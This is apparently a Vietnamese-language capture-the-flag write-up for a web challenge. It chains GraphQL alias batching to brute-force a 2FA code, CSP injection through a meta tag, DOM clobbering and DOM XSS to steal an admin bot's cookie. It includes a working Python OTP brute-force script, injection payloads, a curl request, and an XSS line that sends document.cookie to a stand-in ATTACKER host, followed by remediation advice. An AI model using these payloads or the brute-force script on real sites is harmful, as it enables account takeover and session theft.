const JWTHelper = require('./helpers/JWTHelper');
const fs        = require('fs');
const flag = fs.readFileSync('/flag.txt').toString();

const previewProduct = async (id) => {
    const browser = await puppeteer.launch(browser_options);
    try {
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        // JWT chứa flag trong payload!
        let token = await JWTHelper.sign({
            username: 'admin',
            verified: true,
            flag: flag                // ← FLAG NẰM Ở ĐÂY
        });

        await page.setCookie({
            name: "session",
            value: token,             // JWT với flag → set làm cookie
            domain: "127.0.0.1"
        });

        // Bot truy cập /products/preview/:id
        await page.goto(`http://127.0.0.1/products/preview/${id}`, {
            waitUntil: 'networkidle2'
        });
    } finally {
        await browser.close();
    }
};
```

Khi có sản phẩm mới, bot:
1. Tạo JWT chứa `{ username: 'admin', verified: true, flag: "HTB{...}" }`
2. Set JWT này làm cookie `session` trên domain `127.0.0.1`
3. Truy cập `/products/preview/:id`
4. Trang render sản phẩm → CSP inject chặn `global.js` → DOM Clobbering ghi đè `potionTypes` → XSS trigger → `document.cookie` (chứa JWT có flag) bị gửi tới attacker server

---

## IV. Phân tích lỗ hổng

### Chuỗi lỗ hổng (Vulnerability Chain)

Bài challenge yêu cầu khai thác **4 lỗ hổng liên tiếp**, mỗi lỗ hổng tạo tiền đề cho lỗ hổng tiếp theo:

```
 ┌─────────────────────┐     ┌──────────────────────┐
 │  1. GraphQL Batch   │───▶│  2. CSP Injection     │
 │  Brute-force 2FA    │     │  Chặn global.js      │
 │  (OTP 4 chữ số,     │     │  (filterMeta cho phép│
 │   không rate-limit) │     │   meta http-equiv)   │
 └─────────────────────┘     └──────────┬───────────┘
                                        │
                                        ▼
 ┌─────────────────────┐     ┌──────────────────────┐
 │  4. DOM XSS         │◀────│  3. DOM Clobbering   │
 │  Exfiltrate cookie  │     │  Ghi đè potionTypes  │
 │  (product.js nối    │     │  (filterHTML cho phép│
 │   src vào HTML)     │     │   img name/id/src)   │
 └─────────────────────┘     └──────────────────────┘
```

**Bước 1 — Brute-force 2FA qua GraphQL Batching:**
- OTP chỉ có 4 chữ số → 10,000 khả năng
- Nginx có rate-limit `rate=20r/m` với `burst=5` trên `/graphql`, nhưng chỉ đếm **số HTTP request**
- `verify2FA` resolver không có rate-limit riêng → mỗi request chứa 1,000 aliased mutations đều được xử lý hết
- `express-graphql` mặc định hỗ trợ alias batching
- Gửi ~10 requests (cách nhau vài giây để không bị 429), mỗi request chứa 1,000 mutations → quét toàn bộ 10,000 OTP

**Bước 2 — CSP Injection qua `product_keywords`:**
- `generateMeta()` lắp `keywords` trực tiếp vào template literal
- `filterMeta()` cho phép thẻ `<meta>` với `http-equiv` và `content`
- Inject thêm CSP policy: `script-src 'unsafe-inline' http://127.0.0.1/static/js/jquery.min.js http://127.0.0.1/static/js/product.js`
- Trình duyệt áp dụng intersection của cả 2 CSP → `global.js` bị chặn
- Giữ `'unsafe-inline'` để cho phép inline script từ DOM Clobbering hoạt động
- Giữ `jquery.min.js` và `product.js` vì ta cần product.js chạy để trigger XSS sink

**Bước 3 — DOM Clobbering qua `product_desc`:**
- `filterHTML()` cho phép `` với thuộc tính `name`, `id`, `src`
- Inject 2 thẻ `` → trình duyệt tạo `window.potionTypes` là HTMLCollection
- Thẻ đầu tiên có `id="1"` và `src` chứa XSS payload; thẻ thứ hai có `id="2"` (cần ít nhất 2 phần tử để tạo HTMLCollection thay vì đơn lẻ)
- Set `product_category` = `1` để `product.data('category') == potionTypes[0].id` trả về `true`

**Bước 4 — DOM XSS + Cookie Exfiltration:**
- `product.js` đọc `potionTypes[0].src` (do attacker kiểm soát) và nối vào HTML
- Giá trị src: `#x'onerror=fetch('http://ATTACKER/?c='+document.cookie)//`
  - `#` → fragment identifier, ngăn trình duyệt fetch URL gốc khi parse thuộc tính src ban đầu
  - `x'` → đóng thuộc tính `src` trong template literal (`"

HEADERS = {
    "Content-Type": "application/json",
    "Cookie": f"session={SESSION_TOKEN}"
}

CHUNK_SIZE = 1000  # 1000 mutations/request để tránh 413 Payload Too Large

def chunker(seq, size):
    return (seq[pos:pos + size] for pos in range(0, len(seq), size))

all_otps = [str(i).zfill(4) for i in range(10000)]

for i, chunk in enumerate(chunker(all_otps, CHUNK_SIZE)):
    print(f"[*] Batch {i+1} ({len(chunk)} OTPs)...")
    
    mutation_body = "mutation {"
    for otp in chunk:
        mutation_body += f' test{otp}: verify2FA(otp: "{otp}") {{ message token }} '
    mutation_body += "}"
    
    payload = {"query": mutation_body}
    res = requests.post(URL, json=payload, headers=HEADERS)
    
    if res.status_code == 429:
        print("[-] Rate limited, waiting...")
        time.sleep(3)
        res = requests.post(URL, json=payload, headers=HEADERS)
    
    if res.status_code == 413:
        print("[-] Payload too large, reduce CHUNK_SIZE!")
        exit()

    data = res.json()
    
    if "data" in data and data["data"]:
        for alias, result in data["data"].items():
            if result is not None:
                correct_otp = alias.replace("test", "")
                print(f"\n[+] OTP found: {correct_otp}")
                print(f"[+] Verified token: {result['token']}")
                exit()
    
    time.sleep(2)
```

**Cơ chế hoạt động:**
- Tạo mảng 10,000 OTP từ `"0000"` đến `"9999"`
- Chia thành các chunk 1,000 OTP (tránh `413 Payload Too Large` của Express)
- Mỗi chunk được đóng gói thành 1 GraphQL request với 1,000 aliased mutations
- Mỗi alias có dạng `test0000`, `test0001`, ... để phân biệt kết quả
- **`time.sleep(2)`** giữa các batch để tránh bị Nginx rate-limit (`rate=20r/m`, `burst=5`) trả `429`
- Nếu gặp `429 Too Many Requests`, script đợi 3 giây rồi retry
- Khi OTP đúng, mutation đó trả về `{ message, token }` thay vì `null`
- Script tìm entry không phải `null` trong response → đó là OTP đúng và token đã verified



### D. Bước 3 — Gửi XSS Payload

Với verified JWT, gửi POST request tạo sản phẩm mới (`assets/payload.txt`):

```json
{
  "product_name": "bbt",
  "product_desc": "",
  "product_price": "1337",
  "product_category": "1",
  "product_keywords": "\"><meta http-equiv=\"Content-Security-Policy\" content=\"script-src 'unsafe-inline' http://127.0.0.1/static/js/jquery.min.js http://127.0.0.1/static/js/product.js\">",
  "product_og_title": "Title",
  "product_og_desc": "ss"
}
```

```bash
curl -X POST http://TARGET:1337/api/products/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=<VERIFIED_JWT>" \
  -d @payload.txt
```

**Phân tích từng trường:**

| Trường | Giá trị | Mục đích |
|--------|---------|----------|
| `product_desc` | `` x2 | **DOM Clobbering** — ghi đè `window.potionTypes` thành HTMLCollection chứa XSS payload trong `src` |
| `product_category` | `1` | Khớp với `id="1"` của thẻ img clobbered → trigger vòng lặp trong `product.js` |
| `product_keywords` | `"><meta http-equiv="Content-Security-Policy" ...>` | **CSP Injection** — chặn `global.js` và `rpgui.min.js`, chỉ cho phép `jquery.min.js` + `product.js` + inline |


### E. Bước 4 — Nhận flag

1. Mở listener (ví dụ: **Webhook**, **ngrok**, hoặc server riêng)
2. Sau khi gửi payload, bot tự động truy cập `/products/preview/:id`
3. XSS trigger → bot gửi request tới `http://ATTACKER_SERVER/?c=session=eyJ...`
4. Decode JWT payload (base64):

```bash
echo "eyJ..." | base64 -d
# → {"username":"admin","verified":true,"flag":"HTB{...}","iat":...}
```

Hoặc dán JWT vào [jwt.io](https://jwt.io) để đọc payload.




---

> Flag: ***HTB{b4tch_my_p0710n5_w17h_s0m3_m3t4_m4g1c}***

## VI. Thảo luận

### GraphQL Batching

Khi đánh giá ứng dụng sử dụng GraphQL, cần kiểm tra ngay:
1. **Endpoint nào thực hiện chức năng nhạy cảm** (Login, 2FA, Reset Password)?
2. **Server có hỗ trợ batching không?** (Gửi nhiều query/mutation trong 1 request)
3. **Rate-limiting được triển khai ở đâu?** (Network layer vs. resolver layer — **cả hai đều cần**)

`express-graphql` **mặc định hỗ trợ batching** để tối ưu hiệu năng. Bài lab này cho thấy rõ: Nginx rate-limit (`rate=20r/m`, `burst=5`) **có tồn tại** và là một biện pháp phòng vệ hợp lệ, nhưng nó chỉ hoạt động ở tầng HTTP. GraphQL batching biến nó thành vô dụng:
- 1 HTTP request chứa 1,000 mutations → Nginx đếm 1 request
- Cần **cả hai**: rate-limit ở tầng network (chống HTTP flood) **và** rate-limit ở cấp **resolver** GraphQL (đếm số operation thực tế)

### CSP Injection

Bài lab cho thấy góc nhìn ngược: kẻ tấn công **dùng chính cơ chế bảo mật CSP** để tấn công ứng dụng:
- Inject CSP khắt khe hơn → **chặn script phòng vệ** của ứng dụng (`global.js`)
- Tạo điều kiện cho DOM Clobbering (biến `potionTypes` không được khởi tạo)
- CSP chỉ **thu hẹp** quyền, không mở rộng → attacker không thể dùng CSP inject để *cho phép thêm* script, nhưng có thể *chặn bớt* script

### DOM Clobbering trong thực tế

Điều kiện để DOM Clobbering thành công:
1. Ứng dụng sử dụng **biến toàn cục** chưa được khai báo cục bộ (dùng `potionTypes` thay vì `window.potionTypes` với fallback)
2. Có cách **inject HTML** vào trang (DOMPurify cho phép ``)
3. Có cách **ngăn biến gốc được khởi tạo** (CSP Injection chặn `global.js`)

### Tại sao payload phải dùng `#x'` mà không phải `x'`?

Trong payload DOM Clobbering, thuộc tính `src` bắt đầu bằng `#`:

```html

```

Dấu `#` ở đây **không phải ngẫu nhiên** — nó quyết định sự thành bại của toàn bộ chuỗi XSS. Lý do nằm ở cách trình duyệt xử lý **URL encoding** khác nhau giữa **fragment** và **query string**.

**Khi `product.js` đọc `potionTypes[0].src`**, trình duyệt không trả về giá trị thô của thuộc tính `src`, mà trả về **URL đã resolve đầy đủ** (fully resolved URL). Cách resolve phụ thuộc vào việc có `#` hay không:

**Trường hợp 1 — Có `#` (thành công):**

```
src="#x'onerror=fetch('http://ATTACKER/?c='+document.cookie)//"
```

Mọi thứ sau `#` là **fragment identifier**. Fragment là phần **opaque** (mờ đục) đối với URL parser — trình duyệt giữ nguyên y hệt, **không encode** bất kỳ ký tự nào. Giá trị `.src` trả về:

```
http://127.0.0.1/products/preview/7#x'onerror=fetch('http://ATTACKER/?c='+document.cookie)//
```

Dấu `'` được giữ nguyên. Khi inject vào template literal của `product.js`:

```html

```

Dấu `'` sau `#x` **phá vỡ** thuộc tính `src`, và JavaScript trong `onerror` là:

```javascript
fetch('http://ATTACKER/?c='+document.cookie)//
//                        ^ đóng string    ^ nối document.cookie vào URL
```

`document.cookie` được **evaluate** như biểu thức JavaScript → cookie bị exfiltrate thành công.

**Trường hợp 2 — Không có `#`, chỉ dùng `x'` (thất bại):**

```
src="x'onerror=fetch('http://ATTACKER/?c='+document.cookie)//"
```

Trình duyệt parse đây là **relative URL** với path + query. Dấu `?` trong `/?c='` bị hiểu là **query string delimiter**:

- **Path:** `x'onerror=fetch('http://ATTACKER/`
- **Query:** `c='+document.cookie)//`

Theo [WHATWG URL Standard](https://url.spec.whatwg.org/#special-query-percent-encode-set), **special-query percent-encode set** bao gồm `'` (U+0027) cho các scheme đặc biệt như `http://`. Dấu `'` trong query bị encode thành `%27`:

```
http://127.0.0.1/products/preview/x'onerror=fetch('http://ATTACKER/?c=%27+document.cookie)//
//                                                                    ^^^^ bị encode!
```

Khi inject vào template literal, JavaScript trong `onerror` trở thành:

```javascript
fetch('http://ATTACKER/?c=%27+document.cookie)//'
//    ^---------- toàn bộ đây là MỘT string literal ----------^
//    %27 là ký tự literal, không phải dấu nháy → string không bao giờ đóng
//    +document.cookie nằm BÊN TRONG string, không phải phép nối JS
```

`document.cookie` bị coi là **text thường** trong string thay vì biểu thức JavaScript. Fetch chỉ gửi đoạn text `%27+document.cookie` chứ không gửi cookie thực tế.

**Tóm tắt:**

| | Xử lý `'` | Kết quả JS |
|---|---|---|
| `#x'...` | Fragment — `'` giữ nguyên | `fetch('...?c=' + document.cookie)` — cookie được nối vào ✓ |
| `x'...` | Query string — `'` → `%27` | `fetch('...?c=%27+document.cookie')` — cookie chỉ là text ✗ |

Dấu `#` ép toàn bộ payload vào vùng fragment nơi **không có encoding nào xảy ra**, giữ nguyên dấu `'` để nó có thể phá vỡ chuỗi JavaScript và cho phép `document.cookie` được evaluate như code.

### Cách vá lỗ hổng

1. **Rate-limit ở resolver level (bổ sung cho Nginx):** Nginx `limit_req` đã có sẵn nhưng chỉ đếm HTTP request, không đếm GraphQL operation. Cần bổ sung rate-limiting trực tiếp trong GraphQL resolver, hoặc giới hạn số operations/request, hoặc disable batching hoàn toàn:
   ```javascript
   // Giới hạn số aliases trong 1 request
   const { getOperationAST, parse } = require('graphql');
   // Hoặc dùng thư viện như graphql-rate-limit, graphql-query-complexity
   ```

2. **Không cho phép CSP qua meta tag:** Sử dụng `Content-Security-Policy` header thay vì thẻ `<meta>`, và **không cho phép user inject thẻ `<meta http-equiv>`**.

3. **Escape đầu vào trước khi lắp:** Thay vì lắp trực tiếp vào template literal trong `generateMeta()`, cần encode/escape giá trị `keywords` trước.

4. **Tránh biến toàn cục:** Sử dụng IIFE hoặc module để tránh phụ thuộc vào `window.potionTypes`. Hoặc dùng `const potionTypes = window.potionTypes || []` với fallback an toàn.

5. **Template an toàn:** Thay vì nối trực tiếp giá trị vào HTML string (``), sử dụng DOM API:
   ```javascript
   const img = document.createElement('img');
   img.src = potionTypes[i].src;
   img.className = 'category-img';
   product.prepend(img);
   ```

<br>
<br>
<br>
<br>

> Tag: `GraphQL`, `GraphQL Batching`, `2FA Bypass`, `Rate Limit Bypass`, `DOM Clobbering`, `CSP Injection`, `XSS`, `DOM XSS`, `Cookie Stealing`